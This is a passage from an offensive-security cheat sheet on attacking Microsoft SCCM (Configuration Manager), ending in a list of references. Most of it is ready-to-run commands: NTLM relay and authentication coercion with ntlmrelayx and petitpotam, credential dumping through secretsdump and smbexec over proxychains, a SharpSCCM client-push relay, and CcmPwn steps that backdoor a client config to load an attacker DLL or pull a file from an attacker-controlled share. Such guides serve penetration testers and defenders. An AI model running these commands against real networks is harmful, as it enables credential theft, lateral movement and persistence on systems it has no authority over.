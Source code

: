 Microsoft requires the site server's computer account to be an administrator on the MSSQL server.

**Exploitation**:

* Start a listener for the MSSQL Server: `ntlmrelayx -t 192.168.33.12 -smb2support -socks`
* Coerce an authentication from the Site Server using domain credentials (low privileges SCCM NAA retrieved on the same machine works great): `petitpotam.py -d sccm.lab -u sccm-naa -p 123456789 192.168.33.1 192.168.33.11`
* Finally use the SOCKS from `ntlmrelayx` to access the MSSQL server as a local administrator

    ```ps1
    proxychains -q smbexec.py -no-pass SCCMLAB/'MECM$'@192.168.33.12 
    proxychains -q secretsdump.py -no-pass SCCMLAB/'MECM$'@192.168.33.12 
    ```

### ELEVATE 2 - NTLM Relay with Automatic Client Push Authentication

**Requirements**:

* Automatic site-wide client push installation enabled
* Automatic site device approval
* Fallback authentication to NTLM

**Exploitation**:

```ps1
SharpSCCM.exe invoke client-push -t 192.168.1.50
ntlmrelayx.py -t mssql01.lab.lan -smb2support
```

## SCCM Persistence

* [mandiant/CcmPwn](https://github.com/mandiant/CcmPwn) - lateral movement script that leverages the CcmExec service to remotely hijack user sessions.

CcmExec is a service native to SCCM Windows clients that is executed on every interactive session. This technique requires Adminsitrator privileges on the targeted machine.

* Backdoor the `SCNotification.exe.config` to load your DLL

    ```ps1
    python3 ccmpwn.py domain/user:password@workstation.domain.local exec -dll evil.dll -config exploit.config
    ```

* Malicious config to force `SCNotification.exe` to load a file from an attacker-controlled file share

    ```ps1
    python3 ccmpwn.py domain/user:password@workstation.domain.local coerce -computer 10.10.10.10
    ```

## References

* [Attacking and Defending Configuration Manager - An Attackers Easy Win - Logan Goins - April 25, 2025](https://logan-goins.com/2025-04-25-sccm/)
* [Decrypting the Forest From the Trees - Garrett Foster - March 6, 2025](https://specterops.io/blog/2025/03/06/decrypting-the-forest-from-the-trees/)
* [Exploiting RBCD Using a Normal User Account - tiraniddo.dev - May 13, 2022](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)
* [Exploring SCCM by Unobfuscating Network Access Accounts - @_xpn_ - July 9, 2022](https://blog.xpnsec.com/unobfuscating-network-access-accounts/)
* [Further Adventures With CMPivot — Client Coercion - Diego Lomellini - February 3, 2025](https://posts.specterops.io/further-adventures-with-cmpivot-client-coercion-38b878b740ac)
* [Introducing MalSCCM - Phil Keeble -May 4, 2022](https://labs.nettitude.com/blog/introducing-malsccm/)
* [Misconfiguration Manager: Overlooked and Overprivileged - Duane Michael - March 5, 2024](https://posts.specterops.io/misconfiguration-manager-overlooked-and-overprivileged-70983b8f350d)